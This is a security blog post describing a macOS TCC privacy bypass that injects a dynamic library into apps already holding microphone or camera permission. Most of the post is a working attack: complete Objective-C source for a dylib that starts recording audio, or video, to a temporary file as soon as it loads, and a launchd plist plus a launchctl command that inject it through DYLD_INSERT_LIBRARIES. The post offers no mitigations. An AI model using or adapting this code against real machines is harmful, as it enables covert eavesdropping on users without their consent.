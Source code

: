 > This article was first published on the [tttang Community](https://tttang.com/archive/1903/).

## What is TCC?

TCC (Transparency, Consent, and Control) is a privacy protection technology introduced by Apple, designed to manage and control the access that applications have to system resources. It is part of the macOS privacy protection mechanism, allowing users to control which applications can access specific sensitive information and system functionalities, such as the camera, microphone, location, contacts, calendar, photos, etc.

## Dylib Injection

If the target application is granted access to the microphone and camera permissions, and it uses special entitlements like `com.apple.security.cs.allow-dyld-environment-variable`, `com.apple.security.cs.disable-library-validation`, it is possible to inject a dylib (dynamic library) to bypass TCC and gain access to the microphone and camera permissions, among others.

## Hackit

The target application's signing entitlements:

![](https://github.com/user-attachments/assets/c3beb3b4-41e5-42d6-b481-093cf3958fcd)

### Recording Sound

Here’s an example of using `AVFoundation` to record audio:

```objectivec
#import <AVFoundation/AVFoundation.h>
#import <Foundation/Foundation.h>

#define PATH "/tmp/z.mov"
#define INTERVAL 10

@interface Recorder : NSObject <AVCaptureFileOutputRecordingDelegate>
@property(strong, nonatomic) AVCaptureSession *s;
@property(strong, nonatomic) AVCaptureMovieFileOutput *output;

- (void)startRecording;
- (void)stopRecording;
@end

@implementation Recorder

- (instancetype)init {
  self = [super init];
  if (self) {
    self.s = [[AVCaptureSession alloc] init];
    self.s.sessionPreset = AVCaptureSessionPresetHigh;

    NSError *error;
#ifdef USECAMERA
    AVCaptureDeviceInput *input = [AVCaptureDeviceInput
        deviceInputWithDevice:[AVCaptureDevice
                                  defaultDeviceWithMediaType:AVMediaTypeVideo]
                        error:&error];
    if (error) {
      NSLog(@"Error setting up audio device input: %@",
            [error localizedDescription]);
      return self;
    }
    if ([self.s canAddInput:input]) {
      [self.s addInput:input];
    }
#endif
    AVCaptureDeviceInput *audioInput = [AVCaptureDeviceInput
        deviceInputWithDevice:[AVCaptureDevice
                                  defaultDeviceWithMediaType:AVMediaTypeAudio]
                        error:&error];
    if (error) {
      NSLog(@"Error setting up audio device input: %@",
            [error localizedDescription]);
      return self;
    }

    if ([self.s canAddInput:audioInput]) {
      [self.s addInput:audioInput];
    }

    // output
    self.output = [[AVCaptureMovieFileOutput alloc] init];
    if ([self.s canAddOutput:self.output]) {
      [self.s addOutput:self.output];
    }
  }
  return self;
}

- (void)startRecording {
  [self.s startRunning];
  NSString *path = [NSString stringWithFormat:@"%s", PATH];
  [self.output startRecordingToOutputFileURL:[NSURL fileURLWithPath:path]
                           recordingDelegate:self];
  NSLog(@"Recording started");
}

- (void)stopRecording {
  [self.output stopRecording];
  [self.s stopRunning];
  NSLog(@"Recording stopped");
}

- (void)captureOutput:(AVCaptureFileOutput *)captureOutput
    didFinishRecordingToOutputFileAtURL:(NSURL *)outputFileURL
                        fromConnections:(NSArray *)connections
                                  error:(NSError *)error {
#ifdef DEBUG
  if (error) {
    NSLog(@"Recording failed: %@", [error localizedDescription]);
  } else {
    NSLog(@"Recording finished successfully. Saved to %@", outputFileURL.path);
  }
#endif
}

@end

static void __attribute__((constructor)) initialize(void) {
  @autoreleasepool {
    Recorder *ar = [[Recorder alloc] init];
    [ar startRecording];
    [NSThread sleepForTimeInterval:INTERVAL];
    [ar stopRecording];
    [[NSRunLoop currentRunLoop]
        runUntilDate:[NSDate dateWithTimeIntervalSinceNow:1.0]];
  }
}
```

Use `launch` to load the dylib in the background instead of using the `DYLD_INSERT_LIBRARIES` parameter in the command line. The plist file is written as follows:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
    <dict>
        <key>Label</key>
        <string>{{LABEL}}</string>
        <key>EnvironmentVariables</key>
        <dict>
            <key>DYLD_INSERT_LIBRARIES</key>
            <string>{{DYLIB}}</string>  <!-- Replace with dylib -->
        </dict>
        <key>ProgramArguments</key>
        <array>
            <string>{{APP}}</string>  <!-- Replace with app -->
        </array>
        <key>RunAtLoad</key>
        <true />
        <key>StandardOutPath</key>
        <string>/tmp/zznQ.log</string>
        <key>StandardErrorPath</key>
        <string>/tmp/zznQ.log</string>
    </dict>
</plist>
```

Run `launchctl load test.plist` to start recording in the target app. The demonstration is shown below:

![](https://github.com/user-attachments/assets/2a5b1042-0f0e-49e1-b3ac-cd69229baa91)
![](https://github.com/user-attachments/assets/336c65a9-a91e-42d8-b2ac-1d007619de64)

## References

- [A deep dive into macOS TCC.db](https://www.rainforestqa.com/blog/macos-tcc-db-deep-dive)
- [CVE-2023-26818 - Bypass TCC with Telegram in macOS](https://danrevah.github.io/2023/05/15/CVE-2023-26818-Bypass-TCC-with-Telegram/)

<!-- ##{"timestamp":1692288000}## -->